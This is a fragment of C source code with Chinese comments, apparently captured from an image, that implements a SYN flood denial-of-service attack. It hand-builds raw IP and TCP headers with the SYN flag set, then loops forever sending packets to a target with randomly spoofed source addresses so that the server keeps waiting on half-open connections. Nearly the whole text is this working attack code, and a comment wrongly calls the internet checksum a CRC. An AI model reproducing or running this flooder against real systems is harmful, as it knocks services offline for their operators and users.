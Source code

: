 ```c++
        srcport = atoi(argv[3]);
        attack(skfd,&target,srcport);
}

//在该函数中构造整个IP报文，最后调用sendto函数将报文发送出去
void attack(int skfd,struct sockaddr_in *target,unsigned short srcport){
        char buf[128]={0};
        struct ip *ip;
        struct tcphdr *tcp;
        int ip_len;

        //在我们TCP的报文中Data没有字段，所以整个IP报文的长度
        ip_len = sizeof(struct ip)+sizeof(struct tcphdr);
        //开始填充IP首部
        ip=(struct ip*)buf;

        ip->ip_v = IPVERSION;
        ip->ip_hl = sizeof(struct ip)>>2;
        ip->ip_tos = 0;
        ip->ip_len = htons(ip_len);
        ip->ip_id=0;
        ip->ip_off=0;
        ip->ip_ttl=MAXTTL;
        ip->ip_p=IPPROTO_TCP;
        ip->ip_sum=0;
        ip->ip_dst=target->sin_addr;

        //开始填充TCP首部
        tcp = (struct tcphdr*)(buf+sizeof(struct ip));
        tcp->source = htons(srcport);
        tcp->dest = target->sin_port;
        tcp->seq = random();
        tcp->doff = 5;
        tcp->syn = 1;
        tcp->check = 0;

        while(1){
                //源地址伪造，我们随便任意生成个地址，让服务器一直等待下去
                ip->ip_src.s_addr = random();
                tcp->check=check_sum((unsigned short*)tcp,sizeof(struct tcphdr));
                sendto(skfd,buf,ip_len,0,(struct sockaddr*)target,sizeof(struct sockaddr_in));
        }
}

//关于CRC校验和的计算，网上一大堆，我就“拿来主义”了
unsigned short check_sum(unsigned short *addr,int len){
        register int nleft=len;
        register int sum=0;
        register short *w=addr;
        short answer=0;

        while(nleft>1)
        {
                sum+=*w++;
                nleft-=2;
        }
        if(nleft==1)
        {
                *(unsigned char *)(&answer)=*(unsigned char *)w;
                sum+=answer;
        }

        sum=(sum>>16)+(sum&0xffff);
```